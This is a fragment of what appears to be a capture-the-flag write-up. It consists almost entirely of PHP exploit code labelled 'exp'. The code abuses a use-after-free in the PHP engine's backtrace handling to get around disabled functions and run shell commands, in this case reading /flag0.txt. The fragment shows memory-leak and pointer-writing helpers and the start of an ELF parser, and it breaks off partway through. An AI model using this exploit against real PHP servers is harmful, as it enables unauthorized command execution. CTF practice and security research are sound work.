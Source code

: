 ````
exp:

```php
<?php
pwn("cat /flag0.txt");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
````